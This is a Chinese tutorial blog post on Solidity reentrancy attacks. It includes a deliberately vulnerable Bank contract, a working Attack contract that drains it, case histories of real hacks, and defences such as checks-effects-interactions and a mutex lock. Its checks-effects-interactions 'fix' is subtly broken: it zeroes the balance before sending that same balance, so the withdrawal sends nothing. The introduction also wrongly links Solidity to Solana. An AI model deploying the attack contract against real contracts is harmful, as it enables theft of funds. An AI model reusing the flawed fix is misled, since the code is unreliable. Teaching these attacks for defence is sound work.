 ```yaml
---
author: Flaneur
pubDatetime: 2023-02-08T16:14:00Z
title: 图解 Solidity 安全：重入攻击（reentrancy attack）
postSlug: reentrancy-attack
featured: true
draft: false
tags:
  - Solidity
  - security
  - Hack
ogImage: "https://res.cloudinary.com/dewu7okpv/image/upload/v1675828572/blog/canary/%E6%97%A0%E6%A0%87%E9%A2%98-2023-01-29-1431_s4awrl.png"
description: 重入攻击是指恶意合约在对目标合约的提款调用执行过程中，不等执行结束再通过调用该合约的函数对其进行二次攻击，从而破坏原本的执行流程，达到攻击目的的技术。
---
```


Solidity 中的重入攻击会反复从智能合约中提取资金并将其转移到未经授权的合约中，直到被攻击合约的资金耗尽。

下面的文章解释了重入攻击的原理、两种不同类型的重入攻击，以及 Solidity 开发人员可以采取的预防措施，以保护智能合约免受以太坊和 Solana 区块链漏洞的侵害。

## Table of contents

## 什么是重入攻击（reentrancy attack）?

重入攻击是指恶意合约在对目标合约的提款调用执行过程中，不等执行结束再通过调用该合约的函数对其进行二次攻击，从而破坏原本的执行流程，达到攻击目的的技术。

![](https://res.cloudinary.com/dewu7okpv/image/upload/v1675764495/blog/canary/%E6%97%A0%E6%A0%87%E9%A2%98-2023-01-29-1431_zxqhdp.png)

## 重入攻击（reentrancy attack）是如何工作的？

![](https://res.cloudinary.com/dewu7okpv/image/upload/v1675828572/blog/canary/%E6%97%A0%E6%A0%87%E9%A2%98-2023-01-29-1431_s4awrl.png)

1. Attack 合约先去调用 Bank.deposit() 转入部分资金。
2. 之后 Attack 合约调用 Bank.withdraw() 判断是否有能够提取的资金，然后将资金转移到 Attack 合约。
3. Bank.withdraw() 判断提款人的余额是否满足提款要求，并进行转账，然后去更新余额。
4. 当 Attack 合约收到资金，就会再次执行 Bank.withdraw() 去提取资金，导致上一次的 Bank.withdraw() 执行搁置不能进行余额更新操作，由于此时余额还没更新，可以再次提款形成递归。

### 代码示例

```solidity
contract Bank {
    mapping(address => uint256) public balances;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() external payable {
        require(balances[msg.sender] > 0, "Not enough balance");

        (bool success, ) = msg.sender.call{value: balances[msg.sender]}("");
        require(success, "Failed to transfer ETH");

        balances[msg.sender] = 0;
    }
}
```

```solidity
contract Attack {
    Bank public bank;

    constructor(Bank _bank) {
        bank = _bank;
    }

    receive() external payable {
        bank.withdraw();
    }

    function attack() external payable {
        bank.deposit{value: 1 ether}();
        bank.withdraw();
    }
}
```

## 重入攻击（reentrancy attack）有哪些不同类型？

重入攻击有两种类型：**单一函数重入攻击**和**跨函数重入攻击**。

### 单一函数重入攻击

当受攻击合约的函数与恶意合约试图递归调用的函数相同时，就是单次重入攻击（与上述例子相同）。与跨函数重入攻击相比，单一函数重入攻击更简单、更容易预防。

### 跨函数重入攻击

只有当受攻击合约的函数与另一个对攻击者有利的函数共享状态时，跨函数重入攻击才是可行的。跨函数重入攻击更难检测和预防。

## Solidity 重入攻击（reentrancy attack）案例

以下著名的案例进一步说明了黑客如何利用区块链协议中的漏洞进行重入攻击。

### DAO (2016)

> DAO 是一个去中心化的自治组织。 它的目标是将组织的规则和决策机制编纂成法典，消除对文件和人员进行治理的需要，创建一个分散控制的结构。

2016 年 6 月 17 日，The DAO 遭到黑客攻击，360 万以太币（5000 万美元）在第一次重入攻击中被盗。以太坊基金会发布了一个重要更新来回滚黑客攻击。 这导致以太坊被分叉为以太坊经典和以太坊。

### Lendf.me Protocol (2020)

2020 年 4 月，一个黑客利用 Lendf.me 协议的重入攻击窃取了 2500 万美元，Lendf.me 协议是一种用于在以太坊网络上进行借贷操作的去中心化金融协议。

协议开发人员忽略了一个漏洞，即 ERC-777 代币包含一个回调函数，该函数会在发送或接收资金时通知用户。黑客通过将恶意智能合约设置为接收方并利用该漏洞耗尽 Lendf.me 协议 99.5% 的资金。

### Cream Finance Hack (2021)

2021 年 10 月，一名黑客通过对该协议的“闪电贷”功能进行重入攻击，窃取了价值超过 1.3 亿美元的 ERC-20 和 CREAM 流动性协议 (LP) 代币。利用的根本原因是 AMP 错误地集成到 CREAM 金融协议中。

## 怎样预防重入攻击（reentrancy attack）

### Checks, Effects, Interactions

Checks, Effects, Interactions（CEI）是防止重入攻击的基本原则。

- Checks 是指判断是否满足条件
- Effects 是指调用导致的状态修改
- Interactions 是指函数或合约之间的交易

以 CEI 的顺序来执行是防止重入攻击的关键，对于上面的例子来说，应当先改变取款人的余额再去调用转账交易。

```solidity
function withdraw() external payable {
    require(balances[msg.sender] > 0, "Not enough balance");
    balances[msg.sender] = 0; // 操作提前
    (bool success, ) = msg.sender.call{value: balances[msg.sender]}("");
    require(success, "Failed to transfer ETH");
}
```

### 重入锁

通常的解决方案是加入 [mutex](https://en.wikipedia.org/wiki/Mutual_exclusion) ,智能合约重入锁是一种在智能合约中使用的锁定机制，用于防止多个交易同时修改智能合约的状态，从而保证智能合约的一致性。在易受重入攻击的函数调用上下文放置一个布尔锁，初始状态为 false，在它易受重入攻击的函数执行开始之前设置为 true，然后在终止后设置回 false。

![](https://res.cloudinary.com/dewu7okpv/image/upload/v1675842309/blog/canary/2_tusx7i.png)

```solidity
contract Bank {
    mapping(address => uint256) public balances;
    bool private locks;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() external payable {
        require(!locks, "Balances locked!");
        locks = true;

        require(balances[msg.sender] > 0, "Not enough balance");
        (bool sent, ) = msg.sender.call{value: balances[msg.sender]}("");
        require(sent, "failed to transfer ETH");

        balances[msg.sender] = 0;

        locks = false;
    }
}

```

### Pull Payment

更安全的端到端交易是使用 Pull Payment 支付方法。 Pull Payment 流程要求使用中介托管来发送资金，避免与潜在的恶意合约直接交互。

## 参考文章

1. [https://consensys.github.io/smart-contract-best-practices/attacks/reentrancy/](https://consensys.github.io/smart-contract-best-practices/attacks/reentrancy/)
2. [https://www.alchemy.com/overviews/reentrancy-attack-solidity](https://www.alchemy.com/overviews/reentrancy-attack-solidity)
3. [https://dev.to/peterblockman/smart-contract-security-an-illustrated-guide-to-re-entrancy-attack-2f3p](https://dev.to/peterblockman/smart-contract-security-an-illustrated-guide-to-re-entrancy-attack-2f3p)
